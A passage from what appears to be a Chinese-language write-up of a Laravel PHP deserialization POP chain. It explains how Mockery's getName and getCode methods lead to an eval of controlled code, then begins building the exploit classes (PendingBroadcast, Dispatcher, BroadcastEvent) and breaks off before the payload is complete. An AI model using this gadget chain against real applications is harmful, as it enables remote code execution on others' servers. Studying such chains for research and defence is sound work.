 我们找一个含有`getName`方法且返回值可控的类，让其返回一个不存在的类名即可绕过if。

`vendor/mockery/mockery/library/Mockery/Generator/MockConfiguration.php` 这个类中有

```php
public function getName()
{
    return $this->name;
}
```

最后进入到`eval("?>" . $definition->getCode());`，

```php
public function getCode()
{
    return $this->code;
}
```

`getCode()`依然可控，这个pop链就结束了。

# 构造exp

```php
<?php

namespace Illuminate\Broadcasting {
    class PendingBroadcast
    {
        protected $event;
        protected $events;

        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher
    {
        protected $queueResolver;

        public function __construct($queueResolver)
        {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace Illuminate\Broadcasting {
    class BroadcastEvent
    {
        public $connection;

        public function __construct($connection)
        {
            $this->connection = $connection;
        }
    }
}


```